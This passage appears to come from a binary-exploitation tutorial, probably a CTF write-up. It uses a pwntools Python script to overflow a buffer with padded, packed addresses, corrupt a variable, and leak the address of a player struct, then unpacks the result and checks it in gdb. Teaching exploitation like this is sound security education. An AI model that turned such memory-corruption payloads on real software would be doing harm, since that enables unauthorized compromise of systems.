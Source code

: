 We can add this to our python script. Note that we use the functions `p64` and `p32` to pack our 8 byte and 4 byte values.

```python
...previous code here...

payload = b"help" + b'A' * (6 + 4 + 4)
payload += p64(address + -80)
payload += p64(address + -40)
payload += p32(0x01)

p.sendline(payload)  # Send the payload

p.recvuntil(b"Action: \n")  # Consume everything printed so far

playerRaw = p.recvline()  # The corrupted varg now prints the address of the player struct

playerStr = playerRaw[0:len(playerRaw)-1]  # Get rid of new line

playerStr = playerStr + b"\x00" * (8 - len(playerStr))  # Add any missing leading zeroes for unpacking

playerAddress = u64(playerStr)  # Unpack address so we can perform calculations

print(f"Got leaked address (of player struct) as 0x{playerAddress:x}")

#IPython.embed()

```

You can copy that code straight into the interactive IPython terminal, or copy it into the file and rerun the code. The following screenshot shows it copied into IPython and gdb confirming the correct value was obtained.
